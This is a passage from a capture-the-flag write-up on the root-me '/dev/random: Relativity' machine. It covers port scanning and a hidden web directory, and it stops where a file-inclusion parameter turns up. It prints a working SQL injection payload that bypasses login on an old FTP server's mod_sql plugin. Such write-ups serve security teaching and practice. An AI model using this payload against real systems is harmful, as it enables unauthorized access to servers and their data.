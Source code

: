 +++
title = "/dev/random: Relativity"
date = 2016-11-26
[image]
link = "/images/posts/dev-random-relativity/presentation.jpg"
copyright = "https://unsplash.com/"
+++

Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).

`nmap` reveals the following open ports: `21`,`22`, `80`.

The `HTTP` does not reveal anything special, static `HTML`.

On the ports `21` and `22` the default/basic username don't work.

We can see the `FTP` on port `21` is an old `ftpd` version with the `mod_sql` activated.

[From](http://phrack.org/issues/67/7.html) [various](https://www.exploit-db.com/exploits/43/) [links](https://www.exploit-db.com/exploits/32798/) we understand that there is a `SQL` injection on this plugin that allow a user to login without valid credentials.

Using the code on [this exploit](http://www.securityfocus.com/bid/33722/exploit) doesn't work but changing the `--` with `#` (another comment symbol) works, the payload is:

```bash
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;#
password: 1
```

It seems the `FTP` is in [passive mode](http://slacksite.com/other/ftp.html), which doesn't really matter, but was interesting to understand. Now we are logged in, we can see what is available in the `FTP`:

```ftp
ftp> ls /
---> PORT 192,168,1,72,249,154
200 PORT command successful
---> LIST /
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
```

We can't get any file as the are owned by root, but we can see a _hidden_ directory `0f756638e0737f4a0de1c53bf8937a08`, accessible by `HTTP`:

```bash
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/
```

Poking around shows quickly that the rendering is done with a inclusion of file, via the `page` `GET` parameter:

```bash
http://ctf01.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
```
